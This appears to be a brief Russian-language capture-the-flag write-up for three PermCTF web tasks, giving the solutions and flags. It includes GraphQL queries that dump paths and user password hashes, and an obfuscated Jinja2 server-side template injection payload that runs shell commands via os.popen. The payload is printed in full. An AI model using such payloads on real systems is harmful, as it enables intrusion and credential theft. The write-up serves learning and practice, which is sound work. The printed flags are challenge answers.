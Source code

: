1 таск
ip порт
флаг PermCTF{web_is_easy}
стоимость 100
Краткое решение: открываем по https, смотрим сертификат, находим домены, заходим на домен с флагом
2 таск
ip port
стоимость 150
заходим на другой хост, находим там graphql выполняем запросы находим второй флаг.
```
query{
  allPaths {
    edges {
      node {
        path

      }
    }
  }
}
```
Флаг PermCTF{Gr4phQL}
3 таск
стоимость 200
из graphql находим еще хеш, брутим его и находим пароль s3cur3d и пути dobavitkota
query{
  allUsers {
    edges {
      node {
        name,
        password
      }
    }
  }
}

открываем /dobavitkota
эксплуатируем ssti
```
{{request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("cat flag")["read"]()}}
```
флаг PermCTF{you_are_cool}
